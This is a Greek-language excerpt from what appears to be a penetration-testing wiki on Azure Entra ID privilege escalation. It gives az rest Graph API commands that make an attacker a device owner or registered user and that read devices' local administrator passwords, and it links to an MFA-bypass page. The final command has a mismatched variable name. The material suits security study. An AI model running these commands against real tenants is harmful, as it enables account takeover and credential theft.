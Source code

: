 ```bash
--body "{\"department\": \"security\"}"
```
{% endcode %}

## Πολιτικές Προσβασιμότητας με Όρους & Παράκαμψη MFA

Λανθασμένα ρυθμισμένες πολιτικές προσβασιμότητας με όρους που απαιτούν MFA θα μπορούσαν να παρακαμφθούν, ελέγξτε:

{% content-ref url="az-conditional-access-policies-mfa-bypass.md" %}
[az-conditional-access-policies-mfa-bypass.md](az-conditional-access-policies-mfa-bypass.md)
{% endcontent-ref %}

## Συσκευές

### `microsoft.directory/devices/registeredOwners/update`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να αναθέτουν τους εαυτούς τους ως ιδιοκτήτες συσκευών για να αποκτήσουν έλεγχο ή πρόσβαση σε ρυθμίσεις και δεδομένα συγκεκριμένα για τη συσκευή.
```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/devices/$deviceId/owners/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
### `microsoft.directory/devices/registeredUsers/update`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να συσχετίσουν τον λογαριασμό τους με συσκευές για να αποκτήσουν πρόσβαση ή να παρακάμψουν τις πολιτικές ασφαλείας.
```bash
deviceId="<deviceId>"
userId="<userId>"
az rest --method POST \
--uri "https://graph.microsoft.com/v1.0/devices/$deviceId/registeredUsers/\$ref" \
--headers "Content-Type=application/json" \
--body '{"@odata.id": "https://graph.microsoft.com/v1.0/directoryObjects/$userId"}'
```
### `microsoft.directory/deviceLocalCredentials/password/read`

Αυτή η άδεια επιτρέπει στους επιτιθέμενους να διαβάσουν τις ιδιότητες των αποθηκευμένων διαπιστευτηρίων τοπικού διαχειριστή για συσκευές που είναι συνδεδεμένες με το Microsoft Entra, συμπεριλαμβανομένου του κωδικού πρόσβασης

{% code overflow="wrap" %}
```bash
# List deviceLocalCredentials
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials"

# Get credentials
deviceLC="<deviceLCID>"
az rest --method GET \
--uri "https://graph.microsoft.com/v1.0/directory/deviceLocalCredentials/$deviceLCID?\$select=credentials" \
```
{% endcode %}
